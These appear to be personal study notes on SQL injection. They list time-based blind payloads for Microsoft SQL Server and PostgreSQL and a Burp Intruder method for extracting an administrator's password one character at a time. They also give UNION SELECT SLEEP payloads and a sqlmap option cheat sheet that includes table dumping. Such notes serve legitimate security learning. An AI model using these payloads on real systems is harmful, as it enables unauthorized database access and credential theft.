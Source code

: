 - Microsoft: 
 - '; IF (1=2) WAITFOR DELAY '0:0:10'-- = false, will springt action
 - '; IF (1=1) WAITFOR DELAY '0:0:10'-- = true, action

- PostgreSQL:
  - ' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--

- in the intruder: substring method with password list
' AND (SELECT SUBSTRING(password,X,1) FROM users WHERE username = 'administrator')='§a§;
 - SUBSTRING(string, start, length)
 - Cluster Bomb: several $payload$, one for the position_number, one for the string
 - Brute_force: iterate over given list

- Known table, columns:
  - admin123' UNION SELECT 1,2,[sleep(5)] from *table_name* where *column* like '[character]%';--
  - admin123' UNION SELECT 1,2,[sleep(5)] from *table_name* where username='[name]' and password like 'a%';--

admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
admin123' UNION SELECT SLEEP(5),2;--


## SQLMAP
- [sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
- curl from browser
- parameters
  - --crawl
  - --forms
  - -g
  - -p PARAMETER_NAME
  - key=value*
    - * = custom injection mark
  - -r REQUEST.txt (from burp)

- HTTP headers
  - -u URL
  - -cookies='' | -H | --header
  - --host
  - --referecer
  - -A | --user-agent
  - --random-agent
  - --mobile = imitate smartphone
  - --method 

- Read data
  - --batch = use default inputs
  - --dump = dump dbms table entries
    - --dump-all
  - -T tableName
  - --no-cast = no payload casting mechanisms

- Error handling
  - --parse-errors = display errors
  - -t = traffic in a file
  - -v[0-6] = verbosity
    - 3 = queries
  - --proxy = (i.e.) send to burp
  - --code=# =
  - --titles= compare titles
  - --text-only = remote html tags
  - --techniques = NAME
    - Boolean, Error, Union, Stacked, Time, Q nline
  - --union-char='a'
  - --union-cols=
  - --union-from= for ppendix at the endo of a UNION query

